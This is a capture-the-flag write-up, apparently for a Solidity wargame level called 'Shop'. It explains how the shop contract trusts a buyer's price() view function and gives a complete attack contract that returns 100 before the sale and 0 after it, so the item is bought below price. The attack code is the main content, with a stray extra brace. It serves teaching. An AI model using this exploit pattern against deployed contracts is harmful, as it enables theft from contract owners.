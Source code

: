 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
The contract, `Shop`, allows an external contract implementing the `Buyer` interface to buy an item if the buyer's price meets or exceeds the item's price and the item is not already sold.

- **`price`**: Initial price set to 100.
- **`isSold`**: Tracks if the item is sold.
- **`buy()` function**: Checks if the buyer's `price()` (from the external `Buyer` contract) is equal to or higher than the current price and if the item is not sold. If true, the item is marked as sold, and the price is updated to the buyer's price.

The contract is intended for interaction with a `Buyer` contract that returns a price.

Let me explain the condition again

```sol
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
```
For the first condition to evaluate as true, the initial call to the `price()` function must return a value greater than or equal to the current `price`. Afterward, the function is called again within the block, and the `price` is updated accordingly.

So summary of what we need to do is 

1. set `isSold` to true
2. set `price` < 100

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
Explaining this attack contract

- **`buyer`**: An instance of the `Shop` contract, passed in during deployment.
- **`buy()`**: Calls the `buy()` function in the `Shop` contract.
- **`price()`**: Overrides the `price()` function from the `Buyer` interface. It returns `100` before the item is sold and `0` after the item is sold. This allows it to pass the condition to buy the item by pretending to match the price (100), then once `isSold` is true, it returns `0` to finalize the transaction at a lower price.


Lets deploy the attack contract using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























